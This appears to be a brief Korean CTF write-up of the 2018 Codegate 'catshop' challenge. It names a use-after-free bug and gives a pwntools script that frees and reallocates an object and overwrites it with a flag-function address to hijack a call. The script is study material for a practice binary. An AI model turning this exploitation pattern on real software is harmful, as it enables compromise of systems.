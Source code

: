 ```yaml
---
title: "2018 Codegate catshop"
date: 2019-11-13
tags: [Codegate]
categories: [Codegate]
---
```


UAF 취약점이 발생한다. 

fget는 입력 받을 개수 -1 만큼 입력받고 마지막 문자를 NULL로 만들어서 4bytes 주소값을 넣으려면 5만큼 넣어줘야한다. 

```python
from pwn import *
 
p = process('./catshop')
e = ELF('./catshop')
 
flag = 0x080488b6
 
p.sendafter(':',p32(1)) # malloc
sleep(0.1)
p.sendafter(':',p32(2)) # free
sleep(0.1)
p.sendafter(':',p32(4)) # malloc
sleep(0.1)
p.sendafter(':',p32(5)) # length
sleep(0.1)
p.sendlineafter(':',p32(flag)) # fget -> \x00
sleep(0.1)
p.sendlineafter(':',p32(3)) # call
 
p.interactive()
```

